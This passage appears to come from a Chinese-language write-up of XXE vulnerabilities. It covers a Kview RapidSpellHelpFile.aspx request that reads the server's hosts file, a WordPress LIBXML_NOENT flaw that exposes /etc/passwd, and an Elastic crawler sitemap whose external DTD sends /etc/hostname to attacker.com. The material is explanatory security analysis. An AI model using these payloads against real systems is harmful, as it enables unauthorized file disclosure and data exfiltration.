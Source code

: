 2. **构造恶意请求**：

   ```
   POST /Kview/CustomCodeBehind/Base/Utilities/RapidSpellHelpFile.aspx HTTP/1.1
   Host: ███████
   Content-Type: text/xml; charset=UTF-8
   Cookie: [SESSION_COOKIE]
   
   <!DOCTYPE r [<!ENTITY a SYSTEM "file:///c:\Windows\System32\Drivers\etc\hosts">]>
   <r>
     <textToCheck>&a;</textToCheck>  <!-- 返回hosts文件内容 -->
   </r>
   ```

**影响**：可读取服务器本地文件，进一步探测内网信息。

------

### 4. WordPress LIBXML_NOENT配置缺陷

#### 漏洞链分析

1. **文件上传**：上传包含恶意实体的.wav文件：

   ```
   <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
   <root>&xxe;</root>
   ```

2. **不安全解析**：WordPress使用 `LIBXML_NOENT` 标志解析XML，强制展开实体：

   ```
   $XMLobject = simplexml_load_string($XMLstring, 'SimpleXMLElement', LIBXML_NOENT);
   ```

**修复要点**：避免使用 `LIBXML_NOENT`，或结合实体禁用策略。

------

### 5. Elastic Enterprise Search爬虫XXE

#### 攻击流程

1. **构造恶意sitemap.xml**：

   ```
   <!ENTITY % dtd SYSTEM "http://attacker.com/exfil.dtd">
   %dtd;
   %param1;
   %exfil;
   ```

2. **外部DTD内容**（exfil.dtd）：

   ```
   <!ENTITY % data SYSTEM "file:///etc/hostname">
   <!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/exfil?%data;'>">
   ```
